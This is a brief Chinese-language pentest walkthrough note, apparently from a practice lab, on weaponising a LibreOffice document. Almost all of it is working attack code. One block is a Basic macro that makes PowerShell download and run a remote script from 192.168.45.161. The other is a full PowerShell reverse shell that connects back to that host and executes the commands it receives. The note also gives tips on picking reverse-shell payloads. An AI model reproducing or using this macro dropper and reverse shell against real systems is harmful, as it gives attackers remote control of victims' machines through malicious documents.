 进入点击new（**截图时候做错了，应该放到reshell.odt**

![image-20250306120511888](./PG_win.assets/image-20250306120511888.png)

写入：

```
REM  *****  BASIC  *****

Sub Main
    Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://192.168.45.161:90/odtre.ps1')""")
End Sub
```

`.ps1`文件写入（不要用`Reverse Shell Generator`的第一个ps反弹脚本，收到的shell毫无美化可言）：

```
$TCPClient = New-Object Net.Sockets.TCPClient('192.168.45.161', 80);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()
```

然后再自定义窗口
